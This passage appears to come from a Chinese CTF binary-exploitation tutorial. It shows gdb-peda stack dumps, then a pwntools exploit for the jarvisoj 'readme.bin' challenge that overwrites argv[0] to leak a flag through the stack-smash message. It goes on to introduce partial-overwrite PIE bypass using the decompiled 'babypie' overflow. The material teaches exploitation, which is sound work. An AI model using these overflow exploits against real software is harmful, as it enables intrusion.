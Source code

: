 ```s
    0032| 0x7fffffffdc50 --> 0x7ffff7ffea88 --> 0x7ffff7ffe9b8 --> 0x7ffff7ffe728 --> 0x7ffff7ffe700 --> 0x7ffff7ffa000 (jg     0x7ffff7ffa047)
    0040| 0x7fffffffdc58 --> 0x7fffffffdc90 --> 0x0
    0048| 0x7fffffffdc60 --> 0x380
    0056| 0x7fffffffdc68 --> 0x7fffffffdc80 --> 0x2
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value

    Breakpoint 2, 0x000000000040080e in ?? ()
    gdb-peda$ print $rsp
    $2 = (void *) 0x7fffffffdc30
    gdb-peda$
```

可以得到rsp的值为0x7fffffffdc30，所以偏移量`offset = 0x7fffffffde48- 0x7fffffffdc30 = 0x218(536)

```python
    from pwn import *
    context.log_level = 'debug'
    smash = ELF('./readme.bin')
    if args['REMOTE']:
        sh = remote('pwn.jarvisoj.com', 9877)   # 该题目在 jarvisoj 上有复现
    else:
        sh = process('./readme.bin')
    argv_addr = 0x00007fffffffdc58
    name_addr = 0x7fffffffda40
    flag_addr = 0x600D20
    another_flag_addr = 0x400d20
    payload = 'a' * (argv_addr - name_addr) + p64(another_flag_addr)
    sh.recvuntil('name? ')
    sh.sendline(payload)
    sh.recvuntil('flag: ')
    sh.sendline('bb')
    data = sh.recv()
    sh.interactive()
```

## 栈上的partial overwrite

在开启了随机化（ASLR，PIE）后, 无论高位的地址如何变化，低 12 位的页内偏移始终是固定的, 也就是说如果我们能更改低位的偏移, 就可以在一定程度上控制程序的执行流, 绕过 PIE 保护。

### 2018 - 安恒杯 - babypie

```c++
    __int64 sub_960()
    {
    __int128 buf; // [rsp+0h] [rbp-30h]
    __int128 v2; // [rsp+10h] [rbp-20h]
    unsigned __int64 v3; // [rsp+28h] [rbp-8h]

    v3 = __readfsqword(0x28u);
    setvbuf(stdin, 0LL, 2, 0LL);
    setvbuf(_bss_start, 0LL, 2, 0LL);
    buf = 0uLL;
    v2 = 0uLL;
    puts("Input your Name:");
    read(0, &buf, 0x30uLL);
    printf("Hello %s:\n", &buf, buf, v2);
    read(0, &buf, 0x60uLL);
    return 0LL;
    }
```
